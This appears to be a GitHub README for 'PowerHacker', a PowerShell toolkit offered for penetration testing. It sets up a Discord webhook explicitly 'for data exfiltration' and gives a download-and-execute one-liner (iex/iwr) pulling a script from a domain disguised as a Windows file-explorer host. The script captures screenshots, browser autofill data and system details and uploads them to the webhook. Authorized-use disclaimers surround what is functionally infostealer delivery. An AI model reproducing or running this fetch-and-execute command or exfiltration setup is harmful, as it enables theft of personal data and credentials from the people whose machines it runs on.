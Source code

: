 
# PowerHacker :zap: README

Welcome to PowerHacker, a PowerShell-based toolkit designed for penetration testers and cybersecurity professionals. PowerHacker automates the discovery of valuable Top-Level Domains (TLDs) and the setup of subdomains to facilitate efficient red team operations and security assessments.

## :lock: Security Notice

Security and ethical use are paramount. PowerHacker is intended for **authorized penetration testing** and/or **educational purposes only**. Misuse of PowerHacker may result in legal consequences. Ensure you have explicit permission to test target systems with PowerHacker.

## :gear: Setup

To leverage PowerHacker for your assessments:

1. Clone the repository:
    ```
    git clone https://github.com/pentestfunctions/powerhacker.git
    ```

2. Navigate to the PowerHacker directory:
    ```
    cd powerhacker
    ```

3. Update the `$WebhookUrl` in the scripts to point to your Discord webhook for data exfiltration. To get a Discord webhook URL:
    - Create a Discord server or use an existing one.
    - Go to Server Settings > Integrations.
    - Click on "Webhooks" and then "New Webhook".
    - Customize your webhook, copy the URL, and use it in the script.

4. Ensure your environment is configured to run PowerShell scripts:
    ```
    Set-ExecutionPolicy RemoteSigned -Scope CurrentUser
    ```

## :rocket: Usage

PowerHacker simplifies the redirection of subdomains to your raw GitHub page containing the PowerShell code. To execute, use:

```
iex (iwr windows.fileexplorer.run)
```

This command downloads and executes the script, uploading all collected data to the specified Discord webhook.

## :warning: Features

- **TakeScreenshot**: Captures the current screen.
- **Convert-JsonToWav**: Converts JSON data to WAV format.
- **Get-BrowserData-AutoFill**: Extracts autofill information from browsers.
- **Comprehensive System Info**: Collects detailed system information, including OS version, build number, and more.

## :key: Emphasis on Security

- Always ensure you are in compliance with all applicable laws and regulations.
- Use PowerHacker responsibly to enhance security posture, not to undermine it.
- Verify the integrity and confidentiality of the data collected during your assessments.

## :question: Support

For questions, issues, or feature requests, use GitHub Issues within the repository.

## :memo: Contributing

Contributions to PowerHacker are welcome. Please submit pull requests with clear descriptions of changes and enhancements.

## :balance_scale: License

PowerHacker is released under [MIT License](LICENSE). By using PowerHacker, you agree to the terms of the license and acknowledge the tool's intended purpose for legal, authorized cybersecurity assessments only.
